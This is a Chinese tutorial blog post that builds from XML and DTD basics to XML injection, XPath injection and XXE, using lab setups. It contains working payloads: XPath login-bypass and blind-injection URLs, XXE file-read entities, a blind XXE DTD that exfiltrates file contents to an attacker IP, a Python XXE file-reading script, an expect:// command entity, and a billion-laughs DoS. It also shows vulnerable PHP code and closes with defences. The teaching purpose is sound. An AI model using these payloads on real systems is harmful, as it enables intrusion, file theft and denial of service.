# 从 XML 相关一步一步到 XXE 漏洞 - 先知社区

从 XML 相关一步一步到 XXE 漏洞

- - -

### 0x00 前言

想学 XXE 漏洞，XXE(XML External Entity Injection) 全称为 XML 外部实体注入。XML？！发现我不会，简单看了一下基础知识，发现 XML 还可能存在 XML 注入和 XPath 注入。于是把 XML 注入、XPath 注入和 XML 外部实体注入一起学习了！并写了一下学习笔记。

### 0x01 XML

**什么是 XML？**  
XML 指可扩展标记语言（EXtensible Markup Language）。  
XML 的设计宗旨是传输数据，而不是显示数据。  
XML 是 W3C 的推荐标准。  
XML 不会做任何事情。XML 被设计用来结构化、存储以及传输信息。  
XML 语言没有预定义的标签。

**XML 和 HTML 之间的差异**  
XML 不是 HTML 的替代。  
XML 和 HTML 为不同的目的而设计：

> XML 被设计用来传输和存储数据，其焦点是数据的内容。  
> HTML 被设计用来显示数据，其焦点是数据的外观。  
> HTML 旨在显示信息，而 XML 旨在传输信息。

**为什么需要 XML**  
现实生活中一些数据之间往往存在一定的关系。我们希望能在计算机中保存和处理这些数据的同时能够保存和处理他们之间的关系。XML 就是为了解决这样的需求而产生数据存储格式。

**XML 基本格式与基本语法**  
*基本格式：*

```plain
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><!--xml 文件的声明-->
<bookstore>                                                 <!--根元素-->
<book category="COOKING">        <!--bookstore 的子元素，category 为属性-->
<title>Everyday Italian</title>           <!--book 的子元素，lang 为属性-->
<author>Giada De Laurentiis</author>                  <!--book 的子元素-->
<year>2005</year>                                     <!--book 的子元素-->
<price>30.00</price>                                  <!--book 的子元素-->
</book>                                                 <!--book 的结束-->
</bookstore>                                       <!--bookstore 的结束-->
```

`<?xml version="1.0" encoding="UTF-8" standalone="yes"?>` 称为 XML prolog，用于声明 XML 文档的版本和编码，是可选的，必须放在文档开头。  
standalone 值是 yes 的时候表示 DTD 仅用于验证文档结构，从而外部实体将被禁用，但它的默认值是 no，而且有些 parser 会直接忽略这一项。

*基本语法：*

-   所有 XML 元素都须有关闭标签。
-   XML 标签对大小写敏感。
-   XML 必须正确地嵌套。
-   XML 文档必须有根元素。
-   XML 的属性值须加引号。

若多个字符都需要转义，则可以将这些内容存放到 CDATA 里面

```plain
<![CDATA[ 内容 ]]>
```

### 0x02 DTD

**DTD 基本概念**  
XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition）的东西控制的。  
DTD 用来为 XML 文档定义语义约束。可以嵌入在 XML 文档中 (内部声明)，也可以独立的放在另外一个单独的文件中 (外部引用)。是 XML 文档中的几条语句，用来说明哪些元素/属性是合法的以及元素间应当怎样嵌套/结合，也用来将一些特殊字符和可复用代码段自定义为实体。  
**实体引用**  
XML 元素以形如 `<tag>foo</tag>` 的标签开始和结束，如果元素内部出现如`<` 的特殊字符，解析就会失败，为了避免这种情况，XML 用实体引用（entity reference）替换特殊字符。XML 预定义五个实体引用，即用`&lt; &gt; &amp; &apos; &quot;` 替换 `< > & ' "` 。  
实体引用可以起到类似宏定义和文件包含的效果，为了方便，我们会希望自定义实体引用，这个操作在称为 Document Type Defination（DTD，文档类型定义）的过程中进行。  
**dtd 的引入方式**  
DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用。  
*内部 DTD*  
使用内部的 dtd 文件，即将约束规则定义在 xml 文档中

```plain
<!DOCTYPE 根元素名称 [元素声明]>
```

示例代码：

```plain
<?xml version="1.0"?>
<!DOCTYPE note [<!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)><!--定义 note 元素有四个元素-->
<!ELEMENT to (#PCDATA)><!--定义 to 元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)><!--定义 from 元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)><!--定义 head 元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)><!--定义 body 元素为”#PCDATA”类型-->
]>
<note>
<to>Y0u</to>
<from>@re</from>
<head>v3ry</head>
<body>g00d!</body>
</note>
```

*外部 DTD*  
（1）引入外部的 dtd 文件

```plain
<!DOCTYPE 根元素名称 SYSTEM "dtd 路径">
```

（2）使用外部的 dtd 文件 (网络上的 dtd 文件)

```plain
<!DOCTYPE 根元素 PUBLIC "DTD 名称" "DTD 文档的 URL">
```

当使用外部 DTD 时，通过如下语法引入：

```plain
<!DOCTYPE root-element SYSTEM "filename">
```

示例代码：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root-element SYSTEM "test.dtd">
<note>
<to>Y0u</to>
<from>@re</from>
<head>v3ry</head>
<body>g00d!</body>
</note>
```

test.dtd

```plain
<!ELEMENT to (#PCDATA)><!--定义 to 元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)><!--定义 from 元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)><!--定义 head 元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)><!--定义 body 元素为”#PCDATA”类型-->
```

**PCDATA**  
PCDATA 的意思是被解析的字符数据。PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。文本中的标签会被当作标记来处理，而实体会被展开。  
被解析的字符数据不应当包含任何`&`，`<`，或者`>`字符，需要用`&amp;` `&lt;` `&gt;`实体来分别替换。  
**CDATA**  
CDATA 意思是字符数据，CDATA 是不会被解析器解析的文本，在这些文本中的标签不会被当作标记来对待，其中的实体也不会被展开。  
**DTD 元素**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202150727-65e7882a-14d2-1.png)  
**DTD 属性**  
**属性声明语法**：

```plain
<!ATTLIST 元素名称 属性名称 属性类型 默认值>
```

DTD 实例：

```plain
<!ATTLIST payment Luckey CDATA "Q">
```

XML 实例：

```plain
<payment Luckey="Q" />
```

以下是 属性类型的选项：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202150821-85ef2e3e-14d2-1.png)  
默认属性值可使用下列值：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202150849-96eb9a7e-14d2-1.png)  
**DTD 实体**

> 实体是用于定义引用普通文本或特殊字符的快捷方式的变量。  
> 实体引用是对实体的引用。  
> 实体可在内部或外部进行声明。

*按实体有无参分类，实体分为一般实体和参数实体*  
*一般实体的声明*：`<!ENTITY 实体名称 "实体内容">`  
引用一般实体的方法：`&实体名称;`  
ps：经实验，普通实体可以在 DTD 中引用，可以在 XML 中引用，可以在声明前引用，还可以在实体声明内部引用。

*参数实体的声明*：`<!ENTITY % 实体名称 "实体内容">`  
引用参数实体的方法：`%实体名称;`  
ps：经实验，参数实体只能在 DTD 中引用，不能在声明前引用，也不能在实体声明内部引用。  
DTD 实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。

*按实体使用方式分类，实体分为内部声明实体和引用外部实体*  
*内部实体*

```plain
<!ENTITY 实体名称 "实体的值">
```

内部实体示例代码：

```plain
<?xml version = "1.0" encoding = "utf-8"?>
<!DOCTYPE test [
    <!ENTITY writer "Dawn">
    <!ENTITY copyright "Copyright W3School.com.cn">
]>
<test>&writer;©right;</test>
```

*外部实体*  
外部实体，用来引入外部资源。有`SYSTEM`和`PUBLIC`两个关键字，表示实体来自本地计算机还是公共计算机。

```plain
<!ENTITY 实体名称 SYSTEM "URI/URL">
或者
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```

外部实体示例代码：

```plain
<?xml version = "1.0" encoding = "utf-8"?>
<!DOCTYPE test [
    <!ENTITY file SYSTEM "file:///etc/passwd">
    <!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&file;©right;</author>
```

外部实体可支持 http、file 等协议。不同程序支持的协议不同：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202150935-b26e4a30-14d2-1.png)  
PHP 支持的协议会更多一些，但需要一定的扩展：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151023-cf02c3ba-14d2-1.png)  
PHP 引用外部实体，**常见的利用协议**：

```plain
file://文件绝对路径 如：file:///etc/passwd
http://url/file.txt
php://filter/read=convert.base64-encode/resource=xxx.php
```

*参数实体 + 外部实体*

```plain
<!ENTITY % 实体名称 SYSTEM "URI/URL">
```

参数实体 + 外部实体示例代码：

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  %file;
]>
```

`%file`(参数实体) 是在 DTD 中被引用的，而`&file;`是在 xml 文档中被引用的。

### 0x03 XML 注入

XML 的设计宗旨是传输数据，而非显示数据。  
XML 注入是一种古老的技术，通过利用闭合标签改写 XML 文件实现的。

#### XML 注入简介

XML 是一种数据组织存储的数据结构方式，安全的 XML 在用户输入生成新的数据时候应该只能允许用户接受的数据，需要过滤掉一些可以改变 XML 标签也就是说改变 XML 结构插入新功能（例如新的账户信息，等于添加了账户）的特殊输入，如果没有过滤，则可以导致 XML 注入攻击。

#### XML 注入前提条件

（1）用户能够控制数据的输入  
（2）程序有拼凑的数据

**注入实例**  
test1.xml

```plain
<?xml version="1.0" encoding="utf-8"?>
<manager>
    <admin id="1">
    <username>admin</username>
    <password>admin</password>

    </admin>
    <admin id="2">
    <username>root</username>
    <password>root</password>
    </admin>
</manager>
```

XML 与 HTML 一样，也存在注入攻击，在注入的方法上也非常相似。  
对于上面的 xml 文件，如果攻击者能够掌控 password 字段，那么就会产生 XML 注入。如攻击者输入：

```plain
admin </password></admin><admin id="3"><name>hack</name><password>hacker</password></admin>
```

最终修改结果为：

```plain
<?xml version="1.0" encoding="utf-8"?>
<manager>
    <admin id="1">
    <name>admin</name>
    <password>admin</password>
    </admin>
    <admin id="2">
    <username>root</username>
    <password>root</password>
    </admin>
    <admin id="3">
    <name>hack</name>
    <password>hacker</password>
    </admin>
</manager>
```

这样就通过 XML 注入添加了一个名为 hack、密码为：hacker 的管理员账户。  
XML 注入两大要素：**标签闭合和获取 XML 表结构**

#### XML 注入防御

（1）对用户的输入进行过滤  
（2）对用户的输入进行转义  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202152614-05da2f0c-14d5-1.jpg)

### 0x04 XPath 注入

#### XPath 注入攻击简介

XPath 注入攻击是指利用 XPath 解析器的松散输入和容错特性，能够在 URL、表单或其它信息上附带恶意的 XPath 查询代码，以获得权限信息的访问权并更改这些信息。XPath 注入攻击是针对 Web 服务应用新的攻击方法，它允许攻击者在事先不知道 XPath 查询相关知识的情况下，通过 XPath 查询得到一个 XML 文档的完整内容。

XPath 注入发生在当站点使用用户输入的信息来构造请求以获取 XML 数据。攻击者对站点发送经过特殊构造的信息来探究站点使用的 XML 是如何构造的，从而进一步获取正常途径下无法获取的数据。当 XML 数据被用作账户验证时，攻击者还可以提升他的权限。

#### XPath 注入攻击特点

XPath 注入攻击利用两种技术，即**XPath 扫描**和 **XPath 查询布尔化**。通过该攻击，攻击者可以控制用来进行 XPath 查询的 XML 数据库。这种攻击可以有效地对付使用 XPath 查询（和 XML 数据库）来执行身份验证、查找或者其它操作。

XPath 注入攻击同 SQL 注入攻击类似，但与 SQL 注入相比，XPath 具有的优势：

1.  广泛性  
    只要是利用 XPath 语法的 Web 应用程序若未对输入的 XPath 查询做严格的处理都会存在 XPath 注入漏洞。而在 SQL 注入攻击过程中根据数据库支持的 SQL 语言不同，注入攻击的实现可能不同。
    
2.  危害性大  
    XPath 语言几乎可以没有访问控制限制的引用 XML 文档的所有部分。而在 SQL 注入中，一个“`用户`”的权限可能被限制到 某一特定的表、列或者查询。  
    XPath 注入攻击可以保证得到完整的 XML 文档，即完整的数据库。只要 Web 服务应用具有基本的安全漏洞，即可构造针对 XPath 应用的自动攻击。
    

#### Xpath 注入攻击原理与利用

XPath 注入攻击主要是通过构建特殊的输入，这些输入往往是 XPath 语法中的一些组合，这些输入将作为参数传入 Web 应用程序，通过执行 XPath 查询而执行入侵者想要的操作。  
注入对象不是数据库 users 表，而是一个存储数据的 XML 文件。因为 xpath 不存在访问控制，所以不会遇到许多在 SQL 注入中经常遇到的访问限制。注入出现的位置也就是`cookie`，`headers`，`request` `parameters/input`等。  
[Xpath 基本语法](https://www.cnblogs.com/wendyw/p/11633588.html)  
[xPath 注入学习之基础语法学习](https://www.freebuf.com/column/211251.html)

如果一个网站某应用程序将数据保存在 XML 中，并且对用户的输入没有做限制，攻击者提交了没有经过处理的输入，就插入到 XPath 查询中，即产生 Xpath 注入，那么就攻击者就可能通过控制查询，获取数据，或者删除数据之类的操作。

Xpath 是 xml 路径语言，用于配置文件的查找。数据库就是 xml 文件。因此只要是利用 XPath 语法的 Web 应用程序如果未对输入的 XPath 查询做严格的处理都会存在 XPath 注入漏洞。比如一些登录地址页面，搜索页面需要与 xml 交互的位置。  
**1、Xpath 直接注入**  
示例代码：  
test2.xml(存储用户名和密码)

```plain
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <users> 
        <user> 
            <id>1</id>
            <username>test1</username>
            <password>test1</password>
        </user> 
        <user> 
            <id>2</id>
            <username>test2</username>
            <password>test2</password>
        </user>
    </users>
</root>
```

2.php(用于接收传入参数，并进行 XML 查询)

```plain
<?php
$xml=simplexml_load_file('test2.xml');
$name=$_GET['name'];
$pwd=$_GET['pwd'];
$query="/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']";
echo $query;
$result=$xml->xpath($query);
if($result){
    echo '<h2>Welcome</h2>';
    foreach($result as $key=>$value){
        echo '<br />ID:'.$value->id;
        echo '<br />Username:'.$value->username;
    }
}
?>
```

**[`simplexml_load_file()`函数](http://www.w3school.com.cn/php/func_simplexml_load_file.asp)**  
返回类 SimpleXMLElement 的一个对象，该对象的属性包含 XML 文档中的数据

正常查询：`/root/users/user[username/text()='test1'and password/text()='test1']`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151143-fe7274e2-14d2-1.jpg)  
攻击者在`username`字段中输入：`' or 1=1 or ''='`  
变成`/root/users/user[username/text()='' or 1=1 or ''='' and password/text()='1']`，成功获取所有 user 数据。上面这个字符串会在逻辑上使查询一直返回 `true` 并将一直允许攻击者访问系统。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151227-18df12e0-14d3-1.jpg)  
攻击者可以利用 XPath 在应用程序中动态地操作 XML 文档。攻击完成登录可以再通过 XPath 盲注技术获取最高权限帐号和其它重要文档信息。  
**2、XPath 盲注**  
如果遍历出整个 XML 文档，一般步骤如下：  
*1.盲注根节点*  
利用 count（/\*）判断根下节点：

```plain
http://127.0.0.1/xml/2.php?name=' or count(/*) = 1 or '1' = '2
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151309-31f7c740-14d3-1.jpg)  
有返回结果证明存在一个根节点。  
利用 substring 分割根节点的每个字符，猜解第一级节点：

```plain
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),1,1)='r' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),2,1)='o' or '1'='2
```

...  
最终结果：root  
*2.盲注 root 的下一级节点*  
判断 root 的下一级节点数：

```plain
http://127.0.0.1/xml/2.php?name=' or count(/root/*) = 1 or '1' = '2
```

有返回结果证明存在一个 root 的下一级节点。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151335-418afc54-14d3-1.jpg)  
猜解 root 的下一级节点：

```plain
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),1,1)='u' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),2,1)='s' or '1'='2
```

最终结果:users  
重复上述步骤，直至猜解出所有节点，最后来猜解节点中的数据或属性值。

#### Xpath 注入攻击危害

-   在 URL 及表单中提交恶意 XPath 代码，可获取到权限限制数据的访问权，并可修改这些数据。
-   可通过此类漏洞查询获取到系统内部完整的 XML 文档内容。
-   逻辑以及认证被绕过，它不像数据库那样有各种权限，xml 没有各种权限的概念，正因为没有权限概念，因此利用 xpath 构造查询的时候整个数据库都会被用户读取。

#### Xpath 注入攻击防御

1.  数据提交到服务器上端，在服务端正式处理这批数据之前，对提交数据的合法性进行验证。
2.  检查提交的数据是否包含特殊字符，对特殊字符进行编码转换或替换、删除敏感字符或字符串。
3.  对于系统出现的错误信息，以 IE 错误编码信息替换，屏蔽系统本身的出错信息。
4.  参数化 XPath 查询，将需要构建的 XPath 查询表达式，以变量的形式表示，变量不是可以执行的脚本。
5.  通过 MD5、SSL 等加密算法，对于数据敏感信息和在数据传输过程中加密，即使某些非法用户通过非法手法获取数据包，看到的也是加密后的信息。总结下就是：限制提交非法字符，对输入内容严格检查过滤，参数化 XPath 查询的变量。

### 0x05 XML 外部实体注入 (XXE)

#### XXE 漏洞简介

XXE 漏洞全称 XML External Entity Injection 即 XML 外部实体注入。  
XXE 漏洞发生在应用程序解析 XML 输入时，没有禁止外部实体的加载，导致可加载恶意外部文件和代码，造成**任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起 Dos 攻击**等危害。  
XXE 漏洞触发的点往往是可以上传 xml 文件的位置，没有对上传的 xml 文件进行过滤，导致可上传恶意 xml 文件。

解析 xml 在 php 库 libxml，libxml>=2.9.0 的版本中没有 XXE 漏洞。  
[simplexml\_load\_string()](https://www.runoob.com/php/func-simplexml-load-string.html)可以读取 XML

#### XXE 本地搭建环境测试

xxe.php

```plain
<?php
$xmlfile=file_get_contents('php://input');
$dom=new DOMDocument();
$dom->loadXML($xmlfile);
$xml=simplexml_import_dom($dom);
$xxe=$xml->xxe;
$str="$xxe \n";
echo $str;
?>
```

-   `file_get_contents`获取客户端输入内容
-   `new DOMDocument()`初始化 XML 解析器
-   `loadXML($xmlfile)`加载客户端输入的 XML 内容
-   `simplexml_import_dom($dom)`获取 XML 文档节点，如果成功则返回 SimpleXMLElement 对象，如果失败则返回 FALSE。
-   获取 SimpleXMLElement 对象中的节点 XXE，然后输出 XXE 内容。

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///d://qwzf.txt">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151423-5dc4ee0c-14d3-1.jpg)

#### XXE 常见利用方式

与 SQL 相似，XXE 漏洞也分为有回显和无回显  
有回显，可以直接在页面中看到 payload 的执行结果或现象。  
无回显，又称为 blind xxe，可以使用外带数据 (OOB) 通道提取数据。即可以引用远程服务器上的 XML 文件读取文件。

##### 1、读取任意文件

首先准备一个有 XXE 漏洞的文件，这里以 php 文件为例  
示例代码

```plain
<?php
$xml = simplexml_load_string($_REQUEST['xml']);
print_r($xml);//注释掉该语句即为无回显的情况
?>
```

构造 payload

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY file SYSTEM "file:///d://qwzf.txt" >
]>
<root>
<name>&file;</name>
</root>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151458-73114cba-14d3-1.jpg)  
读取文件，需 URL 编码后执行。  
通过**构造外部实体 payload**，在 xml 中 `&file ;` 变成了外部文件`qwzf.txt`中内容，导致敏感信息泄露。  
**靶场练习**  
使用一下靶场练习回显读取文件和无回显读取文件：[xxe-lab](https://github.com/c0ny1/xxe-lab)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151605-9a976c42-14d3-1.jpg)  
输入，抓包发包，发现通过 XML 传输数据  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151629-a8eb5ba0-14d3-1.jpg)  
php 源码

```plain
<?php
$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $username = $creds->username;
    $password = $creds->password;
    if($username == $USERNAME && $password == $PASSWORD){
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
    }else{
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
    }   
}catch(Exception $e){
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}
header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

1.  有回显

构造 payload

```plain
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE hack [
<!ENTITY file SYSTEM  "file:///d:/qwzf.txt">
]>
<user>
  <username>&file;</username>
  <password>hack</password>
</user>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151724-c9bd6404-14d3-1.jpg)  
当然，也可以使用`php://filter`协议读取 qwzf.txt 文件内容 (也可以读取其他类型的文件，如：php 文件)

```plain
php://filter/read=convert.base64-encode/resource=
```

1.  无回显

修改源码，禁掉输出代码和报错信息，改成无回显。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151758-dde2ceb0-14d3-1.jpg)  
遇到无回显，可以通过`Blind XXE`方法加上外带数据通道来提取数据，先使用`php://filter`协议获取目标文件的内容，然后将内容以`http`请求发送到攻击服务器来读取数据。虽无法直接查看文件内容，但我们可以使用易受攻击的服务器作为代理，在外部网络上执行扫描以及代码。即，当无回显情况时，可以将数据发送到远程服务器 (攻击服务器)。

这里我使用的攻击机 ip 为：`192.168.201.128`

构造 payload

```plain
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=D:/qwzf.txt">
<!ENTITY % dtd SYSTEM "http://192.168.201.128/evil.dtd">
%dtd;
%send;
]>
```

远程服务器部署 evil.dtd 内容为：

```plain
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://192.168.201.128/?content=%file;'>"> %payload;
```

%要进行实体编码`&#x25`  
进行 XXE 攻击后，服务器会把文件内容发送到攻击者服务器 (这里是 ubantu 的 apache 日志记录)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151838-f5f6d848-14d3-1.jpg)  
ubantu 查看 apache 日志记录命令：

```plain
tail -f /var/log/apache2/access.log
```

本地抓包也可以看到 Base64 编码后的文件内容  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151949-20888bc4-14d4-1.jpg)  
*无回显攻击流程：*

-   先调用`%dtd`，请求远程服务器 (攻击服务器) 上的`evil.dtd`。
-   再调用 `evil.dtd`中的 `%file`。`%file` 获取受攻击的服务器上面的敏感文件，然后将 `%file` 的返回结果传到`%send` 。
-   然后调用 `%send;` 把读取到的数据发送到远程服务器上。

这样就实现了外带数据的效果，解决 XXE 无回显的问题。

**使用并分析恶意脚本**  
xxe2.php

```plain
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
?>
```

读取文件.py

```plain
#!/usr/bin/python
# -*- coding:utf-8 -*-
import urllib2

if __name__ == '__main__':

    print u'输入要访问的地址，如http://127.0.0.1/xml/xxe2.php'
    url = raw_input()
    count=1
    while count==1:
        print u'输入要读取的文件，如file:///etc/passwd'
        payload = raw_input()
        headers = {'Content-type': 'text/xml'}
        xml = '<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "' + payload + '" >]><root><name>&xxe;</name></root>'
        req = urllib2.Request(url = url,headers = headers, data = xml)
        res_data = urllib2.urlopen(req)
        res = res_data.read()
        print res
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202152024-3548448c-14d4-1.png)  
通过 urllib2 的 request 方法用 POST 方式向目标地址发送 XML 数据，返回的数据即为服务器相关文件内容。

##### 2、执行系统命令

在安装 expect 扩展的 PHP 环境里执行系统命令，其他协议也有可能可以执行系统命令。

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

通过 XXE 可以实现 RCE 的实例很少。

##### 3、拒绝服务攻击 (Dos)

```plain
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

**原理**：递归引用，lol 实体具体还有“lol”字符串，然后一个 lol2 实体引用了 10 次 lol 实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个“lol”了，以此类推，lol9 实体含有 10^8 个“lol”字符串，最后再引用 lol9。

##### 4、探测内网端口与攻击内网网站

**探测内网端口**

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```

3306 端口开放  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202152107-4ea0fe60-14d4-1.jpg)  
3389 端口未开放  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202152125-5979dc4e-14d4-1.jpg)

**攻击内网网站**

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80/payload" >]>
<root>
<name>&xxe;</name>
</root>
```

### 0x06 XXE 漏洞防御

**1、使用开发语言提供的禁用外部实体的方法**  
php:

```plain
libxml_disable_entity_loader(true);
```

java:

```plain
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

Python:

```plain
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

**2、过滤用户提交的 XML 数据**  
过滤关键字：`<\!DOCTYPE`和`<\!ENTITY`，或者`SYSTEM`和`PUBLIC`。  
**3、不允许 XML 中含有自己定义的 DTD**

### 0x07 后记

总算把常见 XML 漏洞学完了，这里重点学习了 XXE 漏洞 (XML 外部实体注入)。整体来说，收获很大。

参考博客：  
[XML 实体注入漏洞](https://www.cnblogs.com/xiaozi/p/5785165.html)  
[漏洞利用：XML 外部实体（XXE）注入](https://bbs.ichunqiu.com/thread-44650-1-7.html)
